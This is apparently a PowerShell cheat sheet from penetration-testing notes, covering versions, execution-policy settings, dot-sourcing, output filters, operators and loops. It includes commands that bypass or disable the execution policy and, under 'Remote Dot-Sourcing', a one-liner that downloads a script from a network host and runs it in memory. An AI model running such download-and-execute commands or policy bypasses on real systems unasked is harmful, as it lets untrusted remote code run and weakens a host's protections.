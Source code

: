 ## Windows Powershell

### Versions

- Windows Powershell 5.0 runs on these versions of Windows:
  - Windows Server 2016, installed by default
  - Windows Server 2012 R2/Windows Server 2012/Windows Server 2008 R2 with Service Pack 1/Windows 8.1/Windows 7 with Service Pack 1 (install Windows Management Framework 5.0 to run it)  
- Windows Powershell 4.0 runs on these versions of Windows:
  - Windows 8.1/Windows Server 2012 R2, installed by default
  - Windows 7 with Service Pack 1/Windows Server 2008 R2 with Service Pack 1 (install Windows Management Framework 4.0 to run it)  
- Windows Powershell 3.0 runs on these versions of Windows:
  - Windows 8/Windows Server 2012, installed by default
  - Windows 7 with Service Pack 1/Windows Server 2008 R2 with Service Pack 1/2 (install Windows Management Framework 3.0 to run it)  

### Prompt Bypass

This is not verified, but if you have a command that prompts you at an non-interactive shell, try adding this to the end of it:

```powershell
COMMAND | echo $shell.sendkeys("Y`r`n")
```

### PowerShell ISE

PowerShell contains a built-in Integrated Development Environment (IDE), known as the Windows PowerShell Integrated Scripting Environment (ISE). The ISE is a host application for Windows 
PowerShell that enables us to run commands, write, test, and debug scripts in a single Windows-based graphical user interface.  

### Execution Policies

Controls what can load or run on the system

- 'restricted' (Default) - system will neither load PS config files or run PS scripts

- 'unrestricted' - allows loading and running anything

```powershell
# Checks the current policy
Get-ExecutionPolicy
# Checks the current policy for the Current User
Get-ExecutionPolicy -scope currentuser
```

If it doesn't show 'Unrestricted', this will stop the script from running.  There are different ways to fix this:

1. Modify the policy for the system (Requires Admin)

   ```powershell
   # Sets the current policy (requires admin prompt)
   Set-ExecutionPolicy Unrestricted -force
   ```

2. Modify the policy for the user:

   ```powershell
   Set-ExecutionPolicy -ExecutionPolicy Unrestricted -Scope CurrentUser -force
   ```

3. Bypass the policy per script

   ```powershell
   # This is run from PowerShell, not Command Prompt
   powershell -ExecutionPolicy Bypass -force -File .\script.ps1
   ```

More ways:  https://blog.netspi.com/15-ways-to-bypass-the-powershell-execution-policy/

### Dot-Sourcing (Loading a script)

This PowerShell feature allows one to load a script and make all variables and functions declared in the script available in the current PowerShell scope (generally the current instance).  A Dot-Sourced script allows the user access to the functions of a script directly from the CLI rather than having to execute the script over and over.

#### Local Dot-Sourcing

```powershell
. .\script.ps1
```

#### Remote Dot-Sourcing

```powershell
iex (New-Object System.Net.WebClient).DownloadString('https://192.168.119.216/myscript.ps1')
```

### Command Filters

```powershell
# These are filters that output can be piped into, they are largeley dependent on the output being piped to them, as far as what property identifiers you will use.

Select-Object Name, State, PathName		# Selects columns to show
Where-Object {$_.State -like 'Running'}	# Filters by running processes

# Extra Options
Where-Object {$_.Name -like 'Serviio'}	# Match by friendly name
Where-Object {$_.Name -Match "^Ser.*"} # Match by name using a regular expression
Where-Object {$_.ProcessName -like 'Serviio'} # Match by process name
```

### Comparison Operators

Comparison operators are in the form of 

```powershell
( L.VALUE OPERATOR R.VALUE)
```

| Operator | Description                                                  |
| -------- | ------------------------------------------------------------ |
| -eq      | equals                                                       |
| -ne      | not equal                                                    |
| -gt, -ge | greater than, greater than or equal to                       |
| -lt, -le | less than, less than or equal to                             |
| -like    | wildcard match.  <br />? matches a single character, * matches any numer of characters |
| -match   | Regular expression match                                     |



### If Statements

```powershell
# Example
$x = 30

if($x -le 20){
   write-host("This is if statement")
}else {
   write-host("This is else statement")
}
```



### Loops

#### Foreach

```powershell
Foreach($obj in $Result)
{
	Foreach($prop in $obj.Properties)
	{
		$prop
	}
	
	Write-Host "-------------------------"
}
```

### Functions

```powershell
function NestMembers([InputVarType] $InputVarName){
	#Statements here
}
```

